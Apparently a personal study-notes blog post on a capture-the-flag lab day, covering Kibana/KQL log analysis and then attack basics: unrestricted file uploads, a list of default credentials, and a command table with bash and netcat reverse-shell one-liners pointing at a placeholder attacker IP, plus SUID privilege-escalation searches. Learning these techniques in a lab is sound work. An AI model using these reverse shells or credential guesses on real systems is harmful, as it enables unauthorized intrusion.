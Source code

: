 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.
### Operation Blue
Log analysis is crucial to blue-team work.  
    ELK: Elasticsearch, Logstash, and Kirbana  
    
ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
    - Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
    - KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).<br>

    | Query/Syntax | Description | Example |
    |:---:|:---:|:---:|
    | " " | Search for specific values. *Exact* search. | "TryHackMe" |
    | * | Wildcard for similar matches to value provided | United* (returns United Kingdom and United States) |
    | OR | Shows documents that contain *either* value provided | "United Kingdom" OR "England" |
    | AND | Shows documents that contain *both* values provided | "Ben" AND "25" |
    | : | Search a specific field in the document. Field availability<cr>depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
    - RCE: Uploading a script that the server runs giving control to the attacker.  
    - XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:

    | Username | Password |
    |:---:|:---:|
    | admin | admin |
    | administrator | administrator |
    | admin@domainname | admin |
    | guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:

    | Command | Use |
    |:---:|:---:|
    | ls | Gives idea of files and directories around you |
    | cat | Outputs contents of documents like text files |
    | pwd | Gives idea of where in system you are |
    | whoami | Lets you know who you are |
    | hostname | System name and potentially its role |
    | uname -a | System info like OS, kernel version, etc. |
    | id | Shows any groups current user is assigned to |
    | ifconfig | Network setup info |
    | bash -i >& /dev/tcp/<br>'<your-ip>/'<port> 0>&1 | Begins reverse shell via bash |
    | nc -e /bin/sh '<your-ip> <port> | Begin reverse shell via Netcat |
    | find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
    | find / -writable -type f 2>/dev/<br>null '| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

